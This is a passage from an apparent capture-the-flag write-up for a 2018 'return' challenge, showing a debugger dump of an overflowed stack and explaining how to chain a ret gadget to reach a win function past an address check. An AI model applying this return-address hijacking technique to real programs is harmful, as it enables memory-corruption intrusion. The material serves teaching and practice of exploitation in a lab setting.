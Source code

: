 ```
───────────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────────
 EAX  0x0
 EBX  0x0
 ECX  0xf7749870 (_IO_stdfile_1_lock) ◂— 0x0
 EDX  0x0
 EDI  0xf7748000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
 ESI  0xf7748000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
*EBP  0x41414141 ('AAAA')
*ESP  0xffc9f2bc —▸ 0x8048595 (doBattle+154) ◂— leave
*EIP  0x8048596 (doBattle+155) ◂— ret
─────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────
   0x8048595 <doBattle+154>    leave
 ► 0x8048596 <doBattle+155>    ret             <0x8048595; doBattle+154>
    ↓
   0x8048595 <doBattle+154>    leave
 ► 0x804859e <doBattle+155>    ret             <0x8048595; doBattle+154>
    ↓
   0x8048595 <doBattle+154>    leave
 ► 0x8048596 <doBattle+155>    ret             <0x8048595; doBattle+154>
    ↓
   0x8048595 <doBattle+154>    leave
 ► 0x8048596 <doBattle+155>    ret             <0x8048595; doBattle+154>
    ↓
   0x8048595 <doBattle+154>    leave
 ► 0x8048596 <doBattle+155>    ret             <0x8048595; doBattle+154>
    ↓
   0x8048595 <doBattle+154>    leave
─────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────
00:0000│ esp  0xffc9f2bc —▸ 0x8048595 (doBattle+154) ◂— leave
01:0004│      0xffc9f2c0 ◂— 0x42424242 ('BBBB')
02:0008│      0xffc9f2c4 —▸ 0xffc9f2e0 ◂— 0x1
03:000c│      0xffc9f2c8 ◂— 0x0
04:0010│      0xffc9f2cc —▸ 0xf75ae637 (__libc_start_main+247) ◂— add    esp, 0x10
05:0014│      0xffc9f2d0 —▸ 0xf7748000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
... ↓
07:001c│      0xffc9f2d8 ◂— 0x0
```

`ret` will return to 0x8048595 which is the call to `leave` in this function. Notice that on the stack we have part of our payload "BBBB". If we could replace that with the address of `slayTheBeast()` and return to it, then we'd win.

Doing that is pretty easy, we just need to find another `ret` instruction so that we return to that, and that in turn, will return to the address of `slayTheBeast()`. However, the address of said instruction must be less than 0x8048595 in order to pass the check.

A gadget that meets those requirements can be found in `__do_global_dtors_aux()`

![](/images/2018/swampctf/return/02.png)
